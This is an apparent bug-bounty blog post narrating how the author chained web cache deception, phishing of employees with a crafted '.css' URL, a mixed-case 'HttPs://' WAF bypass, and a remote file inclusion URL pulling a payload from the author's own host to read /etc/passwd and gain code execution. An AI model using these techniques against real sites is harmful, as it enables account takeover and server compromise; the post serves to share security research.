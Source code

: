 ```yaml
---
layout: post
published: true
title: Web Cache Deception To RCE
tags:
  - bug hunting
  - 
comments: true
---
```


**concept of web cache deception**

website uses cdn's for storing local cached copy of webpage like pdf,css.etc. so that when user revisits to that website the website will work faster and also for reducing loads
suppose two user bob and alice have two accounts on a website which is vulnerable to web cache deception alice is a hacker and bob is a victim..allice(attacker) 
send a link to victim bob like this : 
https://www.example.com/user/account/l.css
now what happened if bob opens this link his cache copy will stored to server and alice can easily takeover account of bob by retriving cache from server thats the simple mechanism of
web cache deception now lets move towards attack :)

**attack scenario**

i founded a web which was vulnerable to web cache deception but nothing was in that web application i founded a subdomain of same web application where only employee can access their
account that subdomain was made for employees i can't login to that subdomain.. i captured the login request of that subdomain i saw there was no header of pragma cache to avoid web 
cache deception attack ...i quicly extracted email of workers of that web applict ation thanx to <a href="https://www.phonebook..cz">phonebook</a> and after recon of 4 hours i was able 
to determine blueprint of employee panel in my mind when an employee login to that account he got redirectited to index.php i made a url something like this: https://www.example.com/
index.php/app0ly.css ans sends to that gmail and tricked them to open the link after few hours i open my linked and i saw that some one open the links ^__^ so i takeover someone account
but there was the problem i can only see the content of index.php when i go to setiings or any other option web application throws awy me from session *_*..

**escilating to rce** 

after spending few hours with capturing and sending request i saw there was a hidden java file in source code of index.php thanx to: <a href="https://www.waybackmachine.com">wayback</a>
after reaading the java file i got few parameters but most intresting waas parameter "?url=" and file?=...whic was something like "https://www.expample.php?url=" i tried to do ssrf but failed seems like htttp and https:// protocol was 
banned by WAF i tried various combinations like htTps:// , HTTPs:// etc. luckily, HttPs:// workred in my case and i got open redirection then i tried to test for remote file inculsion 
i created a payload for retriving "/etc/passwd" file i hosted that paylaod on my website and tried to fetch that mine v=webiste to vulnerable website like this:

www.example.com/index.php?file=HTtps://www.mywebsite.com/exploit.php

and voila! i was able to reterive /etc/passwd file and also able to obtain rce :( and pawned that web application i sent a report to them they patched the bug ^__^ 
that was about how i escilate the web cache to rce ! 

any privte programs :
send it to : <a href="mailto:nhibtaungamain@gmail.com">mohit</a>

tags: exploit
